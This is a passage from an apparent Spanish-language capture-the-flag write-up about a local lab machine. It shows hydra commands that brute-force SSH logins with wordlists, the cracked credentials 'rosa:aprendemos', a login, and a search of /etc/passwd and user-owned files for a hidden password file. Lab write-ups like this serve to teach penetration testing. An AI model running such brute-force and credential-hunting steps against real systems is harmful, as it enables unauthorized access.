 ```bash
$ hydra -l aprendemos -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -V -I -f

```

No obtenemos ningún resultado. Ahora vamos a probar a buscar un nombre de usuario para contraseña *aprendemos.* Con `-L` indicamos el diccionario de nombres de usuario y con `-p` la password. El resto es igual que el paso anterior.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt -p aprendemos -t 16 -V -f -I ssh://172.17.0.2
6248 of 624377 [child 9] (0/7)
[22][ssh] host: 172.17.0.2   login: rosa   password: aprendemos
[STATUS] attack finished for 172.17.0.2 (valid pair found)
```

Obtenemos las credenciales `rosa:aprendemos` para poder acceder por ssh a nuestra victima. Nos conectamos:

```bash
ssh rosa@172.17.0.2
rosa@4c6b113dd021:~$ hostname
4c6b113dd021
```

Buscamos que usuarios hay en el sistema.

```bash
rosa@4c6b113dd021:/home$ grep "bash" /etc/passwd
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
rosa:x:1001:1001:,,,:/home/rosa:/bin/bash
pedro:x:1002:1002:,,,:/home/pedro:/bin/bash
juan:x:1003:1003:,,,:/home/juan:/bin/bash
```

Lo primero que voy a hacer es buscar ficheros de cada usuario en el sistema. Usamos `find` para buscar en el directorio `/` de forma recursiva los ficheros `-type f` del usuario pedro `-user pedro` y redireccionamos a `/dev/null` los errores `2>/dev/null`

```bash
rosa@4c6b113dd021:/home$ find / -user pedro -type f 2>/dev/null 
/var/mail/.pass_juan
```

Encontramos un fichero, pero…

```bash
rosa@4c6b113dd021:/home$ ls -l /var/mail/.pass_juan 
-rw-rw---- 1 pedro pedro 17 Jun 18 03:41 /var/mail/.pass_juan
```

No tenemos permisos de lectura con el user actual.

En el home del user actual, rosa, vemos que hay una carpeta llamada `-`

```bash
rosa@4c6b113dd021:~$ ls -l
total 4
drwxrwxr-x 69 rosa rosa 4096 Jun 17 08:25 -
```
